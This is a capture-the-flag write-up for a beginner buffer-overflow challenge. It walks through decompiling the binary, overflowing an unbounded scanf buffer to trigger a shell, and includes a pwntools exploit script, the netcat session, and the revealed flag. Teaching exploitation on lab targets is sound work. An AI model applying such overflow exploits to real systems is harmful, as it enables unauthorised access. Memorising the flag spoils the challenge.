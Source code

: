 # Stackoverflow

The description for this challenge is as follows:

*Welcome to Stack Overflow! Get answers to all your programming questions right here!*

This challenge was worth 50 points, and it had 413 solves. It should be suitable for absolute beginners in binary exploitation, so this writeup will assume that the reader has virtually no pre-existing knowledge. Feel free to download the binary and play along at home!

## Background Information

In terms of tooling for these types of challenges, I would recommend you run some flavor of Linux; I personally tend to use a mixture of Kali and Ubuntu for binary exploitation generally speaking. 

I would strongly recommend that you get the decompiler Ghidra. The Python library pwntools and the GEF wrapper for GDB are also great, but I didn't end up referencing them heavily in this writeup.

## Information Gathering

A good first step when performing binary exploitation is to run the challenge binary, either remotely or locally, and see what it does. In this case, the program is simple; it prints out some sentences, asks for user input, prints out a few more sentences, then ends.
```
knittingirl@piglet:~/CTF/imaginaryCTF$ nc chal.imaginaryctf.org 42001
Welcome to StackOverflow! Before you start ~~copypasting code~~ asking good questions, we would like you to answer a question. What's your favorite color?
red
Thanks! Now onto the posts!
ERROR: FEATURE NOT IMPLEMENTED YET

```
To get a better idea of what this program is actually doing, we can open it up in Ghidra. Ghidra is a decompiler, which means that you can give it an executable file, and it can produce a sort of pseudo-C code based on that file. In this case, you can open up main from the symbol tree to get an idea of what is going one.

```
undefined8 main(void)

{
  undefined local_38 [40];
  long local_10;
  
  local_10 = 0x42424242;
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  puts(
      "Welcome to StackOverflow! Before you start ~~copypasting code~~ asking good questions, wewould like you to answer a question. What\'s your favorite color?"
      );
  __isoc99_scanf(%s,local_38);
  puts("Thanks! Now onto the posts!");
  if (local_10 == 0x69637466) {
    puts("DEBUG MODE ACTIVATED.");
    system("/bin/sh");
  }
  else {
    puts("ERROR: FEATURE NOT IMPLEMENTED YET");
  }
  return 0;
}
```
Here is some additional background information that you need to know. local_10 and local_38 are local variables on the stack. If you've programmed in C before, this is sort of the default storage area for local variables. The stack pointer (the rsp register in x86-64) points to the top of the stack, while the base pointer (rbp register in x86-64) points to the bottom of the stack. The local stack variables are situated between the two. The locations of these variables can be described in terms of their offset from rbp; local_38 is situated at rbp-0x30, and local_10 is situated at rbp-0x10; Ghidra has a consistent naming convention, plus you can cross-reference the decompilation with lines from the decompilation like:
```
        00100812 48 8d 45 d0     LEA        RAX=>local_38,[RBP + -0x30]

```
When we look at the decompiled code, we can see that the function __isoc99_scanf is reading a user-provided string into the local_38 variable. There is then a check on the value of local_10 to see if it translates to a hex value of 0x66746369. This is ASCII that corresponds to the string "ftci"; you can copy-paste the hex into CyberChef and select the from hex option. If the comparison is successful, then it will call system("/bin/sh"); this will allow us to run terminal commands on the target system, which is typically the goal of binary exploitation challenges. The problem is that if the program runs normally, local_10 will automatically equal 0x42424242, and there is nothing we can do about it!

Fortunately, a buffer overflow can solve this issue. Basically, in this case, __isoc99_scanf is not placing any limit on the number of characters that it will read into local_38, but only 40 bytes have been allocated to it on the stack. This means that if we input more than 40 characters, it will start to overflow into higher address values, closer to rbp, because of the whole "the stack grows downwards" thing. local_10, at rbp-0x8, will be in the path of this overflow, so we can reset its value simply by inputting more than 40 characters. 

## Writing the Exploit

To perform the overflow, we first input 40 characters of absolutely anything; I typically just go for a bunch of a's. We then need to add the value that we want for local_10 at the end. As a result, we could derive the flag like this:
```
knittingirl@piglet:~/CTF/imaginaryCTF$ nc chal.imaginaryctf.org 42001
Welcome to StackOverflow! Before you start ~~copypasting code~~ asking good questions, we would like you to answer a question. What's your favorite color?
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaftci
Thanks! Now onto the posts!
DEBUG MODE ACTIVATED.
ls
flag.txt
run
cat flag.txt
ictf{4nd_th4t_1s_why_y0u_ch3ck_1nput_l3ngth5_486b39aa}
```
I have also included a Python pwntools script that will accomplish the same thing in a more automated fashion, which you will definitely want to look into if you go much further!
```
from pwn import *

#target = process('./stackoverflow')

target = remote('chal.imaginaryctf.org', 42001)

print(target.recvuntil(b'color?'))

payload = b'a' * 40
payload += p64(0x69637466)
print(payload)

target.sendline(payload)

target.interactive()
```

Thanks for reading!









